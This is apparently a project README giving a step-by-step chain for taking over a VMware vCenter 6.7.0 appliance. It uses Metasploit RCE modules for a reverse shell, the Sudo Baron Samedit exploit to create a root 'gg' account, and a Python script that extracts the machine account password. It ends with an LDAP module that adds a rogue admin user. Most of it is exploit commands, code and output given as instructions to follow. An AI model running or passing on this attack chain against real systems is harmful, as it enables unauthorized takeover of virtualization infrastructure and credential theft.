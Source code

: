 ## Taking over VMware Vcenter 6.7.0

Chain of actions tested on `vCenter Appliance 6.7 Update 3 (6.7.0.40000)`

### Geting low priviledge access to vsphere-ui

Since this version is vulnerble to CVE 2021-21972 and CVE-2021-21985 you may use Metasploit's vcenter modules
```
   3  exploit/multi/http/vmware_vcenter_uploadova_rce           2021-02-23       manual     Yes    VMware vCenter Server Unauthenticated OVA File Upload RCE
   4  exploit/linux/http/vmware_vcenter_vsan_health_rce         2021-05-25       excellent  Yes    VMware vCenter Server Virtual SAN Health Check Plugin RCE
```
to get low priviledge access (reverse shell) to the vsphere-ui user. For this version of vcenter the `vmware_vcenter_vsan_health_rce` seems to be more reliable, 
alhough be patient, it usually succeeds in about 70% of attemtps only. If you don't get the reverse shell on the first attempt, just repeat the exploit:

... TODO: picture ...

### Escalating priviledges via CVE-2021-3156 (Sudo Baron Samedit)

Vcenter 6.7.0 vsphere appliance runs on Photon OS Linux 1.0 with a sudo 1.8.20p2 vulnerable to CVE-2021-3156

Photon OS version (`cat /etc/photon-release`):
```
VMware Photon Linux 1.0
PHOTON_BUILD_NUMBER=62c543d
```
`sudo --version`:
```
Sudo version 1.8.20p2
Configure options: --prefix=/usr --bindir=/usr/bin --libexecdir=/usr/lib --docdir=/usr/share/doc/sudo-1.8.20p2 --with-all-insults --with-env-editor --with-pam --with-pam-login  --with-passprompt=[sudo] password for %p
```
Exploit https://github.com/worawit/CVE-2021-3156/blob/main/exploit_userspec.py works out of the box. At the end of the exploit you get a `gg` user created with password `gg` and UID=0:

```
# python ./exploit_userspec.py
... snip ....
to skip finding offsets next time no this machine, run:
exploit_userspec.py 0xd90 -1 0x1f0 0x0
gg:$5$a$gemgwVPxLx/tdtByhncd4joKlMRYQ3IVwdoBXPACCL2:0:0:gg:/root:/bin/bash
success at 8303
```

At this point you may use `ssh gg@your-vcenter` to logon to vsphere appliance as a root.

### Geting credentials to vcenter

Logged as root use the below script to get the password for machine account from vmdir's LDAP directory for `vsphere.local` domain:
```
#!/usr/bin/env python
import os
import sys
import shutil

sys.path.append('/usr/lib/vmware-vmafd/lib64')

import vmafd

def getMachineAccountCredentials():
    client = vmafd.client('localhost')
    username = client.GetMachineName()
    password = client.GetMachinePassword()
    return (username, password)

if __name__ == "__main__":
    print(getMachineAccountCredentials())
```
Note: it does not work if run by `vsphere-ui` user.

You obtain the user name and password:
```
root@10.0.0.1 [ /tmp ]# ./get_creds.py
('10.0.0.1', 'Password123')
```
The full username of the machine account is `cn=10.0.0.1,ou=Domain Controllers,dc=vsphere,dc=local`.

### Creating own admin user on the vcenter

The machine account cannot be used yet to logon to the vcenter, but we can use it for authentication to vsphere.local LDAP server and create our own admin 
account with Metasploit's `auxiliary/admin/ldap/vmware_vcenter_vmdir_auth_bypass` module.

At the moment of writing the module needs to be adjusted with ... TODO: reference to the pull request .... 

Fill in your options and execute:
```
msf6 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > options

Module options (auxiliary/admin/ldap/vmware_vcenter_vmdir_auth_bypass):

   Name      Current Setting                                        Required  Description
   ----      ---------------                                        --------  -----------
   BASE_DN   dc=vsphere,dc=local                                    no        LDAP base DN if you already have it
   BIND_DN   cn=10.0.0.1,ou=Domain Controllers,dc=vsphere,dc=local  no        The username to authenticate to LDAP server
   BIND_PW   Password123                                            no        Password for the BIND_DN
   PASSWORD  NewPassword123#                                        no        Password of admin user to add
   RHOSTS    10.0.0.1                                               yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     636                                                    yes       The target port
   SSL       true                                                   no        Enable SSL on the LDAP connection
   USERNAME  Myadmin                                                no        Username of admin user to add
```

You should get your new admin user `Myadmin@vsphere.local` created with password `NewPassword123#`. Now go to the https://10.0.0.1/ui and logon to the vcenter.
